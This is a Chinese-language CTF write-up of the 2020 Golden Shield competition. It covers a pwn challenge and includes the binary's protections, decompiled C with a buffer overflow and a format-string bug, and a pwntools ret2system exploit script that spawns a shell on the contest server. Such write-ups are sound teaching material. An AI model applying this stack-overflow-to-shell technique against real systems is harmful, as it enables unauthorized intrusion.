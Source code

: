 ```yaml
---
title: 2020年金盾獎
date: 2020-10-17 21:03:22
tags: 
  - pwn
  - comps
---
```

<!-- more -->
## 心得寫在前
### 10/17 初賽
這是我第一次參加金盾獎

初賽的題目總共是四題，競賽時間是兩小時，然後我想抱怨一下:

官網寫包含很多類別，其中有Misc, 但其實每題都是Misc= = (+forensics)

然後工作人員好像自己也不太懂(?)，好這不重要，反正題目幾乎都是鑑識，我不會QQ

只解了第一題就進決賽xD

### 10/20 決賽
其實當初沒有想到會進決賽，想當然爾，我們是墊底進的Orz

今年的題目有所謂的 “教學題”，就是直接提供解法，但會扣分(400 -> 100)

似乎是怕有人會掛蛋嘛XDDDD

賽中出題者好像不太懂分類(?)，把Web出到Pwn去，然後Reverse = Pwn

最後我們燒雞，我解出一題(唯一的)PWN(假Reverse)，然後隊友開了Crypto_教學題的題示

然後就拿到第三了XDD，直接拿一萬回家

### 決賽
這次我唯一解出的題目是 Reverse_教學題

雖說是reverse啦，但看題敘可以明顯看出是有關Buffer Overflow，我引用一小段:

`…小明發現輸入過長的資料會導致 Segmentation Fault…`
看到這邊大概就有底了，然後再打開Binary:

#### 保護機制
```bash
Arch:     i386-32-little
RELRO:    No RELRO
Stack:    No canary found
NX:       NX enabled
PIE:      No PIE (0x8048000)
```
開了NX, 沒開Canary，很明顯是要stack overflow，接著看組語:
#### 分析:
`main()`:
```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  checkInfo();
  system("exit");
  return 0;
}
```
呼叫了`checkInfo()`, 接著就exit，注意這邊用了`system()`

`checkInfo()`:
```c
void checkInfo()
{
  char password[10]; // [esp+16h] [ebp-412h]
  char account[1024]; // [esp+20h] [ebp-408h]

  memset(account, 0, sizeof(account));
  *(_DWORD *)password = 0;
  *(_DWORD *)&password[4] = 0;
  *(_WORD *)&password[8] = 0;
  printf("Please input account: ");
  fflush(stdout);
  fflush(stdin);
  fgets(account, 10240, stdin);
  if ( strchr(account, 64) )
  {
    printf("account is : ");
    fflush(stdout);
    printf(account);
    fflush(stdout);
    putchar(10);
  }
  else
  {
    puts("account failed");
  }
  fflush(stdout);
  printf("Please input password: ");
  fflush(stdout);
  fflush(stdin);
  fgets(password, 1024, stdin);
  if ( !strcmp(password, "123456") )
  {
    printf("password is : ");
    fflush(stdout);
    printf(password);
    fflush(stdout);
    putchar(10);
  }
  else
  {
    puts("password failed");
  }
  fflush(stdout);
}
```
這邊可以看到`password[10], account[1024]`，但`fgets()`讀了10240，明顯的buffer overflow

指向`system@plt`，接著布置參數就好
#### exploit
```python
#!/usr/bin/env python2
from pwn import *
import pwnlib.elf
context.log_level = 'debug'

e = ELF('./check_passwd')
p = process('./check_passwd')
p = remote('10.3.202.18', 6666)

payload = '\x00'*1036
payload += p32(e.symbols['system'])
payload += p32(e.symbols['main'])
payload += p32(e.search('sh').next())

p.sendlineafter(':', payload)
#p.sendline('A')

p.interactive()
p.close()
```